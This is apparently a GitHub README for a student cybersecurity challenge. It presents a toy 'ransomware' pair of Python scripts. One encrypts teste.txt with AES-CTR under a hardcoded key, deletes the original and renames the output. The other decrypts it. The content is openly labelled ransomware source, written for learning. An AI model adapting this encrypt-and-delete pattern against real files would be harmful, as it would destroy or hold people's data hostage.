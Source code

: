 # DevThallya-cibersecurity-desafio-ransomware

Projeto cibersegurança desafio ransoware

📌Encrypter:

import os

import pyaes

file_name = "teste.txt"

file = open(file_name, "rb")

file_data = file.read()

file.close()

os.remove(file_name)

key = b"testeransomwares"

aes = pyaes.AESModeOfOperationCTR(key)

crypto_data = aes.encrypt(file_data)

new_file = file_name + ".ransomwaretroll"

new_file = open(f'{new_file}','wb')

new_file.write(crypto_data)

new_file.close()



📌Decrypter:

import os

import pyaes

file_name = "teste.txt.ransomwaretroll"

file = open(file_name, "rb")

file_data = file.read()

file.close()

key = b"testeransomwares"

aes = pyaes.AESModeOfOperationCTR(key)

decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = "teste.txt"

new_file = open(f'{new_file}', "wb")

new_file.write(decrypt_data)

new_file.close()


🖼 Prints do Projeto:
![image](https://github.com/user-attachments/assets/3c0949f8-86ef-4781-af09-edc455520bfc)
![image](https://github.com/user-attachments/assets/86262f0d-5a89-46e3-bbc0-f95c990de673)
![image](https://github.com/user-attachments/assets/6b2c13f5-32d2-4750-bbf8-c2c801755416)
![image](https://github.com/user-attachments/assets/8fd0a18f-1323-433a-bd2a-0153d7b7fa0e)
![image](https://github.com/user-attachments/assets/d7a113f2-e517-41d1-a341-39bf31371dd4)



